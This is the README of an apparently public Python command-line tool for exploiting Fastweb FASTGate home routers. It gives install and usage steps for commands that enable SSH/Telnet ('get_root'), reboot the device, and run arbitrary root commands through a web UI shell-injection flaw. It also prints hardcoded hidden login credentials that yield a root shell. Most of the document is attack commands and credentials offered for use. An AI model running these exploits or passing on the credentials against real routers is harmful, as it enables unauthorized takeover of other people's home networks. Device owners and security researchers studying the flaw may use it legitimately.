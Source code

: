 # FastGATE Python tool
See wiki for more info: https://github.com/Nimayer/fastgate-toolkit/wiki

Remote exploitation: https://github.com/tgragnato/FASTGate-RCE

Python tools for Fastweb FastGATE exploits.

```
Usage: fastgate [OPTIONS] COMMAND [ARGS]...

Options:
  -h, --host TEXT     IP address or hostname
  -p, --port INTEGER  HTTP port
  --help              Show this message and exit.

Commands:
  check_login  Check web UI authentication.
  get_root     Attempt to enable access to SSH/Telnet.
  reboot       Reboot router.
  shell        Run command on router with shell injection...
```

## Installation

```sh
pip install https://github.com/Depau/fastgate-python/archive/master.zip
```

## Usage

#### Enable SSH and Telnet from local network:

```sh
fastgate get_root
```
You can then SSH to the router. Log in as `lanadmin`, `lanpasswd`.

In the router's custom shell, run the `sh` hidden command and log in as `lanadmin`, `lanpasswd` or `FASTGate`, `Testplant123` to get a root shell.

#### Reboot router

```sh
fastgate reboot
```

#### Run command as root on router (uses web UI shell injection, no output)

```sh
fastgate shell (command)
# i.e.
fastgate shell /usr/sbin/rc_task firewall restart
fastgate shell /usr/sbin/rc_task sshd restart
```

#### Check web UI login

```sh
fastgate check_login --u username -p password
```
or simply
```sh
fastgate check_login
```
(you will be prompted for login info)

# Credits

- @Nimayer https://github.com/Nimayer/fastgate-toolkit
